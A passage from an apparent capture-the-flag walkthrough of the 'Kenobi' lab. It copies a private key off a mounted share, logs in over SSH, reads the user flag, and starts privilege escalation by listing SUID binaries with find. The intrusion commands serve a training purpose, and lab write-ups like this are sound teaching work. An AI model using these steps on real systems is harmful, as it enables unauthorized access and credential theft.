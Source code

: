 ```
drwxrwsr-x  2 root mail   4096 27 feb  2019 mail
drwxr-xr-x  2 root root   4096 27 feb  2019 opt
lrwxrwxrwx  1 root root      4  4 set  2019 run -> /run
drwxr-xr-x  2 root root   4096 30 gen  2019 snap
drwxr-xr-x  5 root root   4096  4 set  2019 spool
drwxrwxrwt  6 root root   4096  8 set 15.40 tmp
drwxr-xr-x  3 root root   4096  4 set  2019 www
```

Et voilà! Let's copy the private key and access this machine as kenobi

```
$ cp /mnt/kenobiTHM/tmp/id_rsa .
$ sudo chmod 600 id_rsa
$ ssh -i id_rsa kenobi@10.10.188.246

kenobi@kenobi:~$ 
```

We are in :)

Let's get the `user.txt` file and get some points

```
kenobi@kenobi:~$ cat /home/kenobi/user.txt

d0b0f3f53b6caa532a83915e[redacted]
```

## Privilege Escalation with Path Variable Manipulation

What is SUID? A file with SUID always executes as the user who owns the file, regardless of the user passing the command. SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.

We can find all SUIDs with

```
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null

/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```
